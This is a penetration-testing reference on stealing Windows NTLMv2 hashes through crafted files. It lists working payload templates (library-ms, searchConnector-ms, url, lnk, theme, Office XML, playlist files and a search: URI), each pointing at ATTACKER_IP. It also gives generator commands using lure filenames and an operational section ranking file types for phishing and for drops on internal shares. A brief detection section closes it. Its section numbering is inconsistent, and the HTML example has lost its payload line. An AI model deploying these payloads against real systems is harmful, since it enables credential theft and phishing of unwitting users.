

# File-Based NTLMv2 Coercion Techniques

## Overview

File-based NTLM coercion exploits Windows features that automatically resolve UNC paths when processing certain file types. By crafting files with embedded UNC paths pointing to an attacker's SMB server, the victim's system is tricked into authenticating — leaking their Net-NTLMv2 hash.

These techniques are categorized by trigger type:

- **Browse to folder** — hash leaks when Explorer renders the folder contents (zero-click if you can drop a file on a share)
- **Open document** — hash leaks when the user opens the file
- **Extract archive** — hash leaks when a ZIP/RAR is extracted (zero-click in some cases)
- **Click link** — hash leaks when a user clicks a crafted URL

## Summary Table

| # | File Type | Trigger | User Interaction | Still Works (2026)? | CVE |
|---|---|---|---|---|---|
| 1 | `.library-ms` | Extract from ZIP | Zero-click on extract | ✅ (patched but exploited in wild) | CVE-2025-24054/24071 |
| 2 | `.searchConnector-ms` | Browse folder | Zero-click | ✅ Yes | — |
| 3 | `.url` (URL field) | Browse folder | Zero-click | ✅ Yes | — |
| 4 | `.url` (ICONFILE) | Browse folder | Zero-click | ✅ Yes | — |
| 5 | `.lnk` | Browse folder | Zero-click | ✅ Yes | — |
| 6 | `.scf` | Browse folder | Zero-click | ⚠️ Blocked on latest Win10/11 | — |
| 7 | `desktop.ini` | Browse folder | Zero-click | ⚠️ Restricted since 2020 | — |
| 8 | `.theme` / `.themepack` | Open/preview | Single click or right-click | ✅ Yes (recurring bypasses) | CVE-2024-43451, CVE-2024-38030 |
| 9 | `.pdf` (Adobe) | Open + click Allow | Requires user approval | ✅ Yes | — |
| 10 | `.docx` (template) | Open document | Open in Word | ✅ Yes (may show warning) | — |
| 11 | `.docx` (includepicture) | Open document | Open in Word | ✅ Yes | — |
| 12 | `.docx` (frameset) | Open document | Open in Word | ✅ Yes | — |
| 13 | `.xlsx` (external cell) | Open spreadsheet | Open in Excel | ✅ Yes (security prompt) | — |
| 14 | `.xml` (Word stylesheet) | Open in Word | Open | ✅ Yes | — |
| 15 | `.rtf` (OLE object) | Open document | Open in WordPad/Word | ✅ Yes | — |
| 16 | `.htm` (img src) | Open locally | Double-click HTML file | ✅ (Chrome/Edge only from disk) | — |
| 17 | `.m3u` / `.asx` / `.wax` | Open in WMP | Open media file | ✅ Yes | — |
| 18 | `search:` URI | Click link | Single click | ✅ UNPATCHED (2026) | No CVE |

## General Flow Diagram



---

## 1. .library-ms (CVE-2025-24054 / CVE-2025-24071)

!!! danger "Critical — Zero-Click on Extract, Actively Exploited in Wild"

### What It Is

`.library-ms` files define Windows Libraries (the "Documents", "Music", "Pictures" shortcuts in Explorer). They're XML files that tell Explorer where to look for content. Windows Explorer **automatically parses** these files to generate previews and index metadata.

### Why It's Dangerous

When a `.library-ms` file is extracted from a ZIP archive, Windows Explorer **automatically** processes it for indexing — even if the user never opens or clicks the file. If the file contains a UNC path in the `<simpleLocation>` tag, Explorer initiates an SMB connection to resolve it. This is a **zero-click** hash leak.

### File Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>Documents</name>
  <version>1</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <simpleLocation>
        <url>\\ATTACKER_IP\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### Attack Flow

1. Create the `.library-ms` file with attacker IP in `<url>`
2. Compress it into a ZIP archive
3. Send via phishing email
4. Victim extracts the ZIP
5. Explorer processes the `.library-ms` automatically → SMB auth → Hash leaked

### Trigger Conditions

- Extracting a ZIP containing the file (Windows Explorer auto-indexes)
- Right-clicking the file
- Navigating to the folder containing it
- Simply having it appear in a Downloads folder that Explorer renders

### CVE Details

| CVE | CVSS | Patch Date | Description |
|---|---|---|---|
| CVE-2025-24071 | 7.5 | March 2025 | Explorer processes .library-ms on extract |
| CVE-2025-24054 | 6.5 | March 2025 | NTLM spoofing via .library-ms |

### Current Status (2026)

Patched in March 2025, but exploitation was observed in the wild within **days** of disclosure (targeting Poland and Romania via Dropbox phishing). Many organizations remain unpatched. The underlying file format remains parseable by Explorer.

### Tool

```bash
# Manual creation or use the PoC:
# https://github.com/helidem/CVE-2025-24054_CVE-2025-24071-PoC
python3 generate_library_ms.py --ip ATTACKER_IP --output malicious.library-ms
zip payload.zip malicious.library-ms
```

---

## 2. .searchConnector-ms

### What It Is

`.searchConnector-ms` files define search locations for Windows Explorer. Similar to `.library-ms`, they specify remote paths that Explorer resolves for indexing.

### File Structure

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
  <description>Important Documents</description>
  <isSearchOnlyItem>false</isSearchOnlyItem>
  <includeInStartMenuScope>true</includeInStartMenuScope>
  <templateInfo>
    <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
  </templateInfo>
  <simpleLocation>
    <url>\\ATTACKER_IP\share</url>
    <serialized>AAAAAAAAAAAAAAAAAAA=</serialized>
  </simpleLocation>
</searchConnectorDescription>
```

### Trigger

Explorer automatically resolves the location when the file is present in a browsed folder. **Zero-click** — simply having the file in the same directory the user navigates to triggers the leak.

### Current Status

Still works on latest Windows. Not assigned a specific CVE (considered "by design" behavior of the search connector format).

---

## 3. .url Files

### Via URL Field

Internet Shortcut files can point to a UNC path:

```ini
[InternetShortcut]
URL=file://ATTACKER_IP/share/test
```

**Trigger:** User browses the folder containing this file → Explorer resolves the URL → Hash leaked.

### Via ICONFILE Field

```ini
[InternetShortcut]
URL=https://example.com
IconFile=\\ATTACKER_IP\share\icon.ico
IconIndex=0
```

**Trigger:** Explorer tries to load the icon from the UNC path when rendering the folder. Zero-click.

### Current Status

Both methods still work on Windows 10/11 (2026). The ICONFILE method is the more reliable zero-click trigger.

---

## 4. .lnk Files (Shortcuts)

### What It Is

Windows shortcut files can have their icon location set to a UNC path. When Explorer renders the folder containing the shortcut, it attempts to load the icon from the remote location.

### Structure

LNK files are binary format. Use PowerShell or `ntlm_theft` to generate:

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("$pwd\important.lnk")
$lnk.TargetPath = "C:\Windows\System32\cmd.exe"
$lnk.IconLocation = "\\ATTACKER_IP\share\icon.ico, 0"
$lnk.Save()
```

### Trigger

Zero-click — Explorer loads the icon when the containing folder is browsed. The shortcut doesn't need to be clicked.

### Current Status

✅ Works on all current Windows versions. LNK icon resolution is deeply embedded in Explorer and unlikely to be patched without breaking core functionality.

---

## 5. .scf Files (Shell Command Files)

### File Structure

```ini
[Shell]
Command=2
IconFile=\\ATTACKER_IP\share\icon.ico

[Taskbar]
Command=ToggleDesktop
```

### Trigger

Zero-click — Explorer loads the icon when the folder is browsed. The file doesn't need to be opened.

### Current Status

⚠️ **Blocked on latest Windows 10/11** (post-2020 patches). SCF icon resolution from UNC paths was restricted. Still works on older unpatched systems and some internal configurations.

---

## 6. desktop.ini

### File Structure

Create a `desktop.ini` in a folder:

```ini
[.ShellClassInfo]
IconResource=\\ATTACKER_IP\share\icon.ico,0
```

Then set the folder as a system folder:

```cmd
attrib +s target_folder
```

### Trigger

Zero-click — Explorer reads `desktop.ini` to determine folder display properties including icon.

### Current Status

⚠️ Restricted since Windows 10 2004. Explorer no longer resolves UNC paths in `desktop.ini` for standard user folders. May still work in specific configurations or older systems.

---

## 7. .theme / .themepack Files (CVE-2024-43451, CVE-2024-38030)

!!! warning "Recurring Vulnerability — Patched Multiple Times, Keeps Returning"

### What It Is

Windows theme files (`.theme`, `.themepack`) can specify a wallpaper path. If the wallpaper path is a UNC, Windows attempts to load it via SMB.

### File Structure

```ini
[Theme]
DisplayName=Corporate Theme

[Control Panel\Desktop]
Wallpaper=\\ATTACKER_IP\share\wallpaper.jpg
```

### Trigger

- Opening (double-clicking) the theme file
- Right-clicking it in Explorer (preview pane)
- In some configurations, just having it in a browsed folder

### CVE History

This vector has been patched **multiple times** and keeps being bypassed:

| CVE | Year | What Happened |
|---|---|---|
| CVE-2020-1174 | 2020 | First theme file NTLM leak patch |
| CVE-2024-38030 | 2024 | Bypass of previous patch via different path |
| CVE-2024-43451 | 2024 | Another bypass — preview/right-click triggers auth |

### Current Status

✅ Latest bypasses continue to be discovered. This is an active research area. Treat theme files from untrusted sources as hostile.

---

## 8. PDF Files (Adobe Acrobat Reader)

### How It Works

PDF specification supports an `/AA` (Additional Action) entry that can specify a remote resource. When a user opens the PDF in Adobe Acrobat Reader, it attempts to fetch the resource — triggering SMB auth if the path is a UNC.

### Trigger

Open PDF → Adobe shows "This document is trying to connect to..." → User clicks "Allow" → Hash leaked.

**Requires user approval** (one click on the dialog), but the dialog is often clicked reflexively.

### Tool

```bash
# pdf-NTLMLeaker: https://github.com/pimps/pdf-NTLMLeaker
python3 pdf_ntlm_leaker.py --input clean.pdf --output malicious.pdf --ip ATTACKER_IP
```

### Current Status

✅ Still works in latest Adobe Acrobat Reader (the dialog prompt is the only mitigation).

---

## 9-12. Microsoft Office Documents (.docx, .xlsx, .xml, .rtf)

Office documents offer **multiple** vectors for NTLM coercion:

### 9. .docx — External Template

Word documents can reference an external template via the `_rels/.rels` file:

```xml
<Relationship Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
  Target="\\ATTACKER_IP\share\template.dotx" TargetMode="External"/>
```

**Trigger:** Open in Word → Word fetches the template → Hash leaked.

### 10. .docx — includepicture Field

```xml
<w:fldSimple w:instr=' INCLUDEPICTURE "\\\\ATTACKER_IP\\share\\image.png" \* MERGEFORMAT '>
```

**Trigger:** Open in Word → Word resolves the image → Hash leaked.

### 11. .docx — Frameset (webSettings.xml)

```xml
<w:frameset>
  <w:frame>
    <w:name w:val="main"/>
    <w:sourceFileName w:val="\\ATTACKER_IP\share\page.html"/>
  </w:frame>
</w:frameset>
```

**Trigger:** Open in Word → frameset resolves → Hash leaked.

### 12. .xlsx — External Cell Reference

Excel supports external data connections pointing to UNC paths. When the workbook opens, Excel attempts to fetch the external data.

### 13. .xml (Word) — Stylesheet

```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="\\ATTACKER_IP\share\style.xsl"?>
<w:wordDocument xmlns:w="http://schemas.microsoft.com/office/word/2003/wordml">
</w:wordDocument>
```

### 14. .rtf — OLE Object

RTF documents can embed OLE objects with UNC paths that are resolved on open.

### Current Status (All Office vectors)

✅ All still work on latest Office versions. Some show security warnings ("This document contains links that may refer to other files"), but many users click through.

### Tool

```bash
# ntlm_theft generates all Office variants at once
python3 ntlm_theft.py -g all -s ATTACKER_IP -f Quarterly_Report
```

---

## 13. .htm/.html — Local img src

### File Content

```html
<html>
<body>

<h1>Loading...</h1>
</body>
</html>
```

### Trigger

Opening the HTML file **locally** (double-click from disk, not from a web server). When opened from a local context, the browser resolves the UNC path for the image. This does NOT work when the HTML is served from a web server (browser security prevents it).

### Current Status

✅ Works in Chrome, Edge, and IE/Legacy Edge when opened from local disk.

---

## 14. Media Playlist Files (.m3u, .asx, .wax)

### .m3u File

```
#EXTM3U
#EXTINF:0,Track1
\\ATTACKER_IP\share\song.mp3
```

### .asx File

```xml
<asx version="3.0">
<entry>
<ref href="\\ATTACKER_IP\share\video.wmv"/>
</entry>
</asx>
```

### .wax File

```xml
<asx version="3.0">
<entry>
<ref href="\\ATTACKER_IP\share\audio.wma"/>
</entry>
</asx>
```

### Trigger

Opening in Windows Media Player → WMP resolves the UNC path → Hash leaked.

`.asx` and `.wax` are the primary open handlers on Windows; `.m3u` may open in Groove Music (Windows 10) or Media Player (Windows 11) which may not leak.

### Current Status

✅ `.asx` and `.wax` work via Windows Media Player on all current Windows versions.

---

## 15. search: URI Handler (UNPATCHED — 2026)

!!! danger "No CVE — No Patch — Active as of July 2026"

### Discovery

In June 2026, Huntress disclosed an **unpatched** vulnerability in the Windows `search:` URI protocol handler. A crafted `search:` link with a UNC path in the `crumb` or `filePath` parameter causes Explorer to initiate SMB authentication when the user clicks it.

### Payload

```
search:query=test&crumb=location:\\ATTACKER_IP\share
```

Or as an HTML link:

```html
<a href="search:query=test&crumb=location:\\ATTACKER_IP\share">Click to search documents</a>
```

### Trigger

**Single click** on the link (in email, chat, web page). Windows Search opens, resolves the UNC path in the crumb parameter, and initiates SMB auth. The victim may not even notice — they just see a search window briefly appear.

### Current Status

✅ **UNPATCHED as of July 2026**. Microsoft has not issued a CVE or fix. Works on fully updated Windows 10 and Windows 11. This is one of the most dangerous current vectors because it requires only a link click — no file download, no archive extraction.

---

## 16. .odt (LibreOffice)

LibreOffice Writer documents can contain embedded UNC links that are resolved when the document is opened:

```xml
<text:a xlink:href="\\ATTACKER_IP\share\document.odt" xlink:type="simple">
  Click here
</text:a>
```

Also via `draw:image` elements with UNC hrefs.

### Current Status

Works when opened in LibreOffice on Windows. The SMB resolution happens through the Windows networking stack regardless of the application.

---

## Automation: ntlm_theft Tool

The `ntlm_theft` tool by Jacob Wilkin (Greenwolf) generates **21 different file types** in one command:

```bash
# Generate ALL coercion file types
python3 ntlm_theft.py -g all -s ATTACKER_IP -f Bonus_Q4

# Generate only modern types (skip legacy SCF/desktop.ini)
python3 ntlm_theft.py -g modern -s ATTACKER_IP -f meeting_notes

# Generate a specific type
python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f important
python3 ntlm_theft.py -g xlsx -s ATTACKER_IP -f Financial_Report
```

**GitHub:** [github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

---

## Operational Considerations

### Best File Types for Internal Pentest (Drop on Share)

1. **`.url` with ICONFILE** — zero-click, works everywhere, small file
2. **`.lnk` with UNC icon** — zero-click, very reliable
3. **`.searchConnector-ms`** — zero-click, less well-known (fewer detections)

### Best File Types for Phishing (External, via Email)

1. **`.library-ms` in ZIP** — zero-click on extract (CVE-2025-24071)
2. **`.docx` with external template** — opens normally, leaks in background
3. **`.theme` file** — unique format, may bypass email filters

### Best for Link-Based Delivery (Chat/Email Body)

1. **`search:` URI** — UNPATCHED, single click, no file download
2. **HTML attachment with `img src`** — opened locally from saved attachment

---

## Detection

### Network Detection

Monitor outbound SMB (TCP 445) to non-infrastructure IPs:

```
alert tcp $HOME_NET any -> !$DC_SERVERS 445 (msg:"SMB connection to non-DC"; sid:1000001;)
```

### Endpoint Detection

| Indicator | Detection |
|---|---|
| `.library-ms` files in Downloads/Temp | File creation monitoring |
| `.searchConnector-ms` creation | File creation monitoring |
| `.url` with ICONFILE containing `\\` | File content scanning |
| SMB connections from Explorer.exe to external IPs | Process network monitoring |
| Event ID 4648 (explicit credential logon) | Windows Security log |

### Email Gateway

Block or quarantine:

- `.library-ms` files (and ZIPs containing them)
- `.searchConnector-ms` files
- `.theme` / `.themepack` files
- `.url` files with UNC paths

---

## References

- [Greenwolf — ntlm_theft tool](https://github.com/Greenwolf/ntlm_theft)
- [Check Point — CVE-2025-24054 in the Wild](https://research.checkpoint.com/2025/cve-2025-24054-ntlm-exploit-in-the-wild/)
- [Huntress — Unpatched NTLM Leakage in Windows search: URI Handler](https://www.huntress.com/blog/unpatched-ntlm-coercion-windows-search-uri-handler)
- [HackTricks — Places to Steal NTLM Creds](https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds)
- [Kaspersky — CVE-2024-43451](https://www.kaspersky.com/blog/2024-november-patch-tuesday/52604/)
